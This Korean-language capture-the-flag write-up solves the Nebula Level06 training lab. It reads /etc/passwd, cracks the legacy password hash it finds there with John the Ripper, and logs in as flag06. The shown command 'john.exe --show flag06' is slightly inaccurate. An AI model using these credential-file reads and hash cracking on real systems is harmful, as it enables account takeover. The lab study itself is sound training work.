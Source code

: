 # Exploit-exercise Nebula Level06
```
The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.
```

`flag06` 계정은 unix 운영체제의 로그인 인증 방식을 따른다고 한다.

옛날의 (초반의) unix 운영체제는 `/etc/passwd` 파일에 모든 비밀번호를 저장했었다.

```
cat /etc/passwd | grep flag06
```
또는
```
cat /etc/passwd | more
```

를 통해 `flag06` 계정의 비밀번호가 적힌 다음과 같은 줄을 찾을 수 있다.

```
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```
이제 `ueqwOCnSGdsuM` 를 통해서 `flag06` 계정의 비밀번호를 알아내보겠다.

`john the ripper` 이라는 툴을 사용해서 `flag06` 계정의 비밀번호를 알아낼 수 있다.

먼저, 위에서 나온 `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh` 를 `flag06.txt` 에 저장하고, Windows 용 `john the ripper` 툴을 [여기](http://www.openwall.com/john/)에서 다운받을 수 있다. Window 용을 다운받은 다음, 압축을 푼다.

그 이후 `john.exe` 가 있는 디렉토리에서 커맨드 프롬포트를 연 다음, `john.exe --show flag06` 을 입력하게 되면

```
flag06:hello:993:993::/home/flag06:/bin/sh
1 password hash cracked, 0 left
```

이라고 나오면서 `hello` 라는 비밀번호가 나온 것을 확인할 수 있다.


자, 이제 `su flag06` 명령어를 입력하고 비밀번호인 `hello` 를 입력하여 계정에 로그인한 뒤, `getflag` 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.
